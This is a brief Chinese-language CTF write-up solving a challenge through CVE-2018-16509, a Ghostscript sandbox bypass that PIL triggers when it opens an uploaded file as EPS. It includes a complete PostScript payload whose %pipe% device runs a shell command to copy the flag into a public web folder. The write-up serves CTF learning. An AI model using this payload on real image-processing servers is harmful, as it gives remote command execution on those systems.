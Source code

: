 ## 分析

这道题考点是 `CVE-2018-16509`

`GhostScript 2.23` 的安全沙箱可以被绕过，恶意的 `JPG` 文件可以导致 `RCE`，还需要添加一些边界内容 `%%BoundingBox: -0 -0 100 100` ，防止`IO`错误

```
Content of uploaded file will be loaded by img = Image.open(img_path). PIL will automatically detect if the image is an EPS image (example: add %!PS-Adobe-3.0 EPSF-3.0 at the beginning of file) and will call _open() in EpsImageFile class in EPSImagePlugin.py. To avoid raise IOError("cannot determine EPS bounding box"), a bounding box need to be added in the file (example: %%BoundingBox: -0 -0 100 100).
```


`Payload` 如下：
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

参考链接
[https://github.com/vulhub/vulhub/tree/master/ghostscript/CVE-2018-16509](https://github.com/vulhub/vulhub/tree/master/ghostscript/CVE-2018-16509)


[https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509)